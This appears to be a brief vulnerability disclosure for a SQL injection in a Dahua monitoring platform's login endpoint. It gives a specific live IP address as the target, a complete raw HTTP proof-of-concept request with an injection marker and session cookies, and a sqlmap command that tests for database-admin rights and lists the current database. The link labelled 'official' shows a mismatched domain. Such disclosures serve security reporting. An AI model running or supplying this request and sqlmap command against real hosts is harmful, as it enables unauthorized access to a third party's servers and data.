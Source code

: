 Zhejiang Dahua Technology Co., Ltd. is a leading supplier of monitoring products and solution services, providing a series of leading products such as video storage, front-end, display control, and intelligent transportation worldwide, as well as providing thermal imaging temperature measurement and blackbody temperature measurement equipment.

There is a SQL injection vulnerability in the monitoring platform of Zhejiang Dahua Technology Co., Ltd. Attackers can exploit vulnerabilities to gain server privileges.

official：[https://www.dinstar.cn/](https://www.dahuatech.com/)

version:1.0

 Vulnerability Path  ：/itc/$%7BappPath%7D/login_getPasswordErrorNum.action

url：http://61.178.24.128/itc/login_init.action

<img width="654" height="403" alt="图片" src="https://github.com/user-attachments/assets/d22842fd-a3c4-4615-be49-20123ed0087c" />
POC：

```
GET http://61.178.24.128/itc/$%7BappPath%7D/login_getPasswordErrorNum.action?userBean.loginName=admin*&userBean.loginPass=123456&_=1693797717346 HTTP/1.1
Host: 61.178.24.128
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://61.178.24.128/itc/login_init.action
Cookie: JSESSIONID=390F205CE333AA95969E777A02F65C1F; JSESSIONID=2CDD78986FC307DBD19FC0901810553C
```

python3 sqlmap.py -r 1.txt  --batch --tamper=space2comment --is-dba --current-db

<img width="642" height="479" alt="图片" src="https://github.com/user-attachments/assets/654a6d8c-3c21-4f10-8889-3876dfe04c25" />
